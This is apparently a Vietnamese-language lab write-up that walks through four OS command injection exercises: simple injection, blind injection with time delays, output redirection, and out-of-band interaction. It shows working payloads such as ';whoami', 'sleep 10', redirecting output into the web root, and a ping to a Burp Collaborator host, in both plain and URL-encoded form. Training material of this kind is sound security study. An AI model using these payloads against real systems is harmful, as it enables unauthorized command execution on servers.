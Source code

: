 # 1. OS command injection, simple case
Trong chức năng check stock, ta thấy body có dạng `productId=2&storeId=1`

Thử thay đổi body thành `productId=2&storeId=1'` thì thấy hiển thị lỗi `sh: 1: Syntax error:Unterminated quoted string`. Như vậy, server sử dụng hai biến productId và storeId để truyền vào một lệnh command, thực thi rồi trả về kết quả tương ứng.

Thay đổi body để thực thi câu lệnh whoami: `productId=2&storeId=1;whoami`, ta thu được kết quả mong muốn

![image](https://user-images.githubusercontent.com/103978452/202739993-e5acd98b-fd43-4d42-a90e-abde76bffc9d.png)

# 2. Blind OS command injection with time delays
Trong chức năng feedback, ta thấy response trả về chỉ là một object rỗng. Như vậy đây là blind OS command injection.

Body của request tới /feedback/submit có dạng `csrf=...&name=my_name&email=my_mail@gmail.com&subject=my_subject&mesage=my_message`. Lần lượt thử thêm `%22%3Bsleep+10%3Becho+%22` (ứng với `";sleep 10;echo "` sau khi URL decode) vào sau các trường name, email, subject và message. 

Ta thấy với body `csrf=Mfd0vSTsKCnatqeVnSeJaohf5YXVKSCV&name=triet%22%3Bsleep+10%3Becho+%2& email=trang%40gmail.com2&subject=trung&message=helloooo` thì response bị delay 10 giây. Như vậy, kết quả thành công.

# 3. Blind OS command injection with output redirection
Như trong lab description, các images của server được lưu trong /var/www/images

Trong chức năng feedback, thêm đoạn code sau vào sau tham số name: 
`%22%3B%77%68%6F%61%6D%69%3E%2F%76%61%72%2F%77%77%77%2F%69%6D%61%67%65%73%2F%68%65%6C%6C%6F%2E%74%78%74%3B%65%63%68%6F%20%22`, tương ứng `";whoami>/var/www/images/hello.txt;echo "` sau khi URL decode. Đoạn code này sẽ thực thi lệnh whoami và đưa nội dung vào file /var/www/images/hello.txt

Truy cập URL `/images?filename=hello.txt`, ta có được nội dung của lệnh command whoami

![image](https://user-images.githubusercontent.com/103978452/202840364-69225135-eaf3-43bd-ba93-da0137d0249b.png)

# 4. Blind OS command injection with out-of-band interaction
Trong chức năng feedback, ta thay đổi tham số username:
`name=test%22%3B%70%69%6E%67%20%6D%71%67%35%63%79%6A%68%72%6D%70%74%34%36%71%6D%76%61%6E%69%63%73%31%6C%35%63%62%32%7A%72%2E%6F%61%73%74%69%66%79%2E%63%6F%6D%3B%65%63%68%6F%20%22`, tương ứng `name=test";ping mqg5cyjhrmpt46qmvanics1l5cb2zr.oastify.com;echo "` sau khi URL decode.

![Uploading image.png…]()

Sau khi gửi request, kiểm tra trong BurpCollaborator client thì thấy có request được gửi đến

![Uploading image.png…]()

